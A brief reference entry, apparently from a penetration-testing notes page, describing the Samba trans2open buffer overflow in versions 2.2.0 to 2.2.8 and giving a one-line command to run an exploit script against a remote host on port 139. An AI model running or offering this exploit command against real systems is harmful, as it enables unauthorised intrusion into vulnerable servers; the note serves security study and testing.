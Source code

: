 # Samba trans2open Overflow (Linux x86)

This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since they apparently do not allow anonymous access to IPC.

```sh
./samba_2_2_x.pl -M B -t linx86 -H <LHOST> -h <RHOST> -p 139
```
